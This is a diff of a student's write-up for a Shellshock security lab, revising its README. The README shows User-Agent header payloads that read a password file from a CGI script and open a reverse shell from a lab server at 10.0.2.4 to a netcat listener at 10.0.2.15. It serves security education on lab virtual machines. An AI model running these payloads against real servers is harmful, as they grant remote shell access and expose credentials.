

Before and after one commit to li-xin-yi/seedlab, a Markdown page: Shellshock-Attack/README.MD, the part around the change printed below. Shown: that part at 83% size. Drawn GitHub-style; pictures changed too: Shellshock-Attack/ip_addr.png; blank space fills up the shorter version.

Commit message:
multi vm on shellshock

````diff
--- a/Shellshock-Attack/README.MD
+++ b/Shellshock-Attack/README.MD
@@ -10,7 +10,7 @@ date: \today{}
 
 Use the following commands to define a shell function, export it into the environment, and then observe if it prints `'extra'` when calling the child shell with `/bin/bash_shellshock` or `/bin/bash`.
 
-```shell
+```sh
 $ foo='() { echo "hello world"; }; echo "extra";'
 $ export $foo
 ```
@@ -20,44 +20,44 @@ As expected, using `/bin/bash_shellshock` leads to extra print out while it is c
 
 # Task 2
 
-```shell
+```sh
 $ su
 $ cp myprog.cgi /usr/lib/cgi-bin
 $ sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
 ```
 
-# Task3
+# Task 3
 
 The `Apache` creates a child process to execute `bash_shellshock` with function `exec()`, and `$$` will be replaced by `bash_shellshock` with the ID of the current process. So `strings /proc/$$/environ` will be correctly executed while parsing the HTTP request.
-
 
 # Task 4
 
 For instance, I can steal passwords of the server using
-```shell
-curl -A "() { echo hello;}; echo Content-type: text/plain; echo; /bin/cat /etc/password;" http://localhost/cgi-bin/myprog.cgi
+
+```sh
+$ curl -A "() { echo hello;}; echo Content-type: text/plain; echo; /bin/cat /etc/password;" http://localhost/cgi-bin/myprog.cgi
 ```
 
-However, because `/etc/shadow` is only readable to `root`, I cannot steal the content of the file unless the web served by `root`.
+However, because `/etc/shadow` is only readable to `root`, I cannot steal the content of the file unless the webserver is launched by `root`.
 
 # Task 5
 
-*Somehow, the ip address of the server and the attacker are exactly the same on the virtual machine. So instead of using ip address in the lab instruction, i use `localhost` to represent both of them.*
+- The attacker: `10.0.2.15`
+- The server: `10.0.2.4`
 
 ![the attacker's IP address](./ip_addr.png)
 
-First, build a TCP server:
+First, build a TCP connection:
 
-```shell
-nc -lv 9090
+```sh
+$ nc -lv 9090
 ```
+~~It is blocked with listening on the port `9090` and print the information of whatever it fetches. Just keep the shell running and finish the following command in another shell~~
 
-*Sometimes, the process is really slow. Be patient to wait for connection built then do the following steps*
+Then start a new shell and make use of the `shellshock` to map the server's `stdin`/`stdout` to local shell.
 
-Then make use of the `shellshock` to map the server's `stdin`/`stdout` to local shell.
-
-```shell
-curl -A "() { echo hello;}; echo Content-type: text/plain; echo; echo; /bin/bash -i -> /dev/tcp/localhost/9090 0<&1 2>&1" http://localhost/cgi-bin/myprog.cgi
+```sh
+$ curl -A "() { echo hello;}; echo Content-type: text/plain; echo; echo; /bin/bash -i -> /dev/tcp/10.0.2.15/9090 0<&1 2>&1" http://10.0.2.4/cgi-bin/myprog.cgi
 ```
 
 So, a reverse shell is created.
````
Also changed, not shown: other parts of Shellshock-Attack/README.MD (+1 -1 lines), Shellshock-Attack/reverse_shell.png, 1 other file.
